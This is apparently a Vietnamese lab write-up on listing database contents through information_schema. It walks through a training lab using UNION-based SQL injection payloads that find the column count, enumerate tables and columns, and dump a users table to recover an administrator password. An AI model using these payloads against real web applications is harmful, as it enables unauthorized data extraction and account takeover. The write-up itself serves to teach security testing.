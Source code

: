 # Listing the contents of the database

Hầu hết các hệ quản trị cơ sở dữ liệu (trừ Oracle) đều có một tập hợp các **view đặc biệt** gọi là **information schema**. Các view này cung cấp thông tin về cấu trúc của cơ sở dữ liệu.

**1. Liệt kê danh sách bảng trong cơ sở dữ liệu**

Có thể truy vấn **information_schema.tables** để lấy danh sách các bảng:

    SELECT * FROM information_schema.tables

Truy vấn này sẽ trả về kết quả như sau:

    TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE  
    =====================================================  
    MyDatabase     dbo           Products    BASE TABLE  
    MyDatabase     dbo           Users       BASE TABLE  
    MyDatabase     dbo           Feedback    BASE TABLE  

Dữ liệu này cho biết cơ sở dữ liệu có **ba bảng**, lần lượt là **Products**, **Users**, và **Feedback**.

**2. Liệt kê danh sách cột trong một bảng cụ thể**

Có thể truy vấn **information_schema.columns** để lấy thông tin về các cột trong một bảng cụ thể. Ví dụ, để liệt kê các cột của bảng **Users**:

    SELECT * FROM information_schema.columns WHERE table_name = 'Users'

Truy vấn này sẽ trả về kết quả như sau:

    TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE  
    =================================================================  
    MyDatabase     dbo           Users       UserId       int  
    MyDatabase     dbo           Users       Username     varchar  
    MyDatabase     dbo           Users       Password     varchar  

Kết quả này cho thấy bảng **Users** chứa **ba cột**:

- UserId (kiểu dữ liệu int)
- Username (kiểu dữ liệu varchar)
- Password (kiểu dữ liệu varchar)

Sử dụng các truy vấn này, kẻ tấn công có thể tìm ra cấu trúc của cơ sở dữ liệu và từ đó lên kế hoạch **truy xuất hoặc thao túng dữ liệu** theo ý muốn.

# Lab: SQL injection attack, listing the database contents on non-Oracle databases

![img](85)

Truy cập lab: 

![img](86)

Chọn category Lifestyle và intercept request trong Burp Suite: 

![img](87)

Thử chèn payload **'+UNION+SELECT+NULL,NULL--** vào tham số category để kiểm tra số lượng cột trong truy vấn gốc: 

![img](88)

Send request, quan sát response: 

![img](89)

=> Thành công biết rằng số lượng cột của truy vấn gốc là 2. 

Thử kiểm tra xem cột nào nhận giá trị kiểu chuỗi: 

![img](90)

Send request, quan sát response: 

![img](91)

=> Cả 2 cột có thể chứa giá trị kiểu chuỗi. 

Chèn payload **'UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--** để lấy ra tên bảng trong CSDL: 

![img](92)

Send request, quan sát response:

![img](93)

=> Tìm ra tên bảng chứa thông tin về users: users_twsmtx

Tiếp theo cần tìm tên các cột trong bảng này, sử dụng payload **'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_twsmtx'--**:

![img](94)

Send request, quan sát response: 

![img](95)

![img](96)

=> Tìm ra cột lưu thông tin username: username_wmowzy và cột lưu thông tin password là: password_tqaahw

Như vậy đã tìm ra tên bảng và tên cột, tiếp theo sử dụng payload **'UNION SELECT username_wmowzy, password_tqaahw FROM users_twsmtx--** để trích xuất thông tin: 

![img](97)

Send request, quan sát response: 

![img](98)

=> username: administrator và password: xqq27g94tizfndzfgd2p

Login tài khoản administrator: 

![img](99)

Solved the lab!

![img](100)






